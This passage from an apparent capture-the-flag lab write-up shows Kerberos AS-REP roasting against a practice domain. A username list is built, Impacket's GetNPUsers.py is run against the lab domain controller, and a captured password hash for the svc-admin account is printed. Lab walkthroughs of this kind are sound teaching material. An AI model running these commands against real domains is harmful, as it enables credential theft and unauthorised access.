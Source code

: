### Task 5: Exploiting Kerberos:

#### Creating a wordlist of usernames:

```
crazyeights@kali:~$​ echo -e
"Administrator\njames\nrobin\ndarkstar\nbackup\nparadox\nsvc-admin\nori" >
ad_users.txt
crazyeights@kali:~$​ cat ad_users.txt
Administrator
james
robin
darkstar
Backup
paradox
svc-admin
ori
crazyeights@kali:~$
```

#### Get the hashes of users with kerberos pre-auth disabled:

```
crazyeights@kali:~$ ​ python GetNPUsers.py spookysec.local/ -usersfile /home/crazyeights/ad_users.txt -no-pass -dc-ip 10.10.182.180
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in
Kerberos database)
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:25de918b3ab665ed68bd7599b3dc97b3$5594
ef4634fac0eef41869a298631f320e2a194e50a9661c15fed12a8e3bec61d4e61e190d1316a08
e1e155bcbbcab0f791ee50ecdef2a2be283fa9aabb5ee06526c46be2a93e4055a5aedbc69b07b
38da7088f8a59f3e8b328a97731acea271d6f6d12a6a3a0b10a1741540947de63c48792c76fb2
4713d8d878ee455201f1073f8f4a5e1bb4376437e3b2ad34a2fb38364f9a39f37a90fe0d23ed8
70a7e09d9b2d40d1cebe506ddce873c30c2f070ca2e6025bec26ee80331eff8450e13c66ffe55
534ea7e121c2476e769de9017d587c7cdf23b2b09ef27fcb7712e98944550b99dc2d5d425be02
479d4540d057358f6c
[-] User ori doesn't have UF_DONT_REQUIRE_PREAUTH set
```

![](/assets/images/13/a4.png)
